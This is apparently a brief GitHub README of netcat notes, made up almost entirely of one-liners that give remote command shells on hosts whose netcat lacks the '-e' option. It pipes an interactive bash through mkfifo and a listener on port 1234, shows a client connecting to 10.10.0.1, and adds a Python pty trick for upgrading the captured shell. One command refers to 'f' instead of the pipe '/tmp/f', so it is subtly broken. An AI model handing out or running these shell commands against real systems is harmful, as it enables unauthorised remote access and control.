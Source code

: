# netcat_shells
Notes for utilizing netcat general use and for remote shells

OpenBSD derivities of nc/netcat (netcat-openbsd) have the '-e' option disabled for security purposes. This feature is enabled in netcat-traditional; however, there are other ways to achieve this with the OpenBSD version.
Below are other ways to execute remotely and options for upgrading the shell.

# Method 1
on Server:
mkfifo /tmp/f;
nc -l 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

On client:
nc 10.10.0.1 1234

# Method 2
On Server:
mkfifo /tmp/f;
cat f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f

On client:
nc 10.10.0.1 1234

# Additional Methods
mkfifo /tmp/f ; nc -lk 1234 0< /tmp/f | /bin/bash 1> /tmp/f

# Getting a better Shell
If executing bash without the '-i' flag, typical shell features will be lost. Below are several ways to gain a better shell.

Python Method:<br>
#Once are connected to the remote host issue the following<br>
python -c 'import pty; pty.spawn("/bin/bash")'
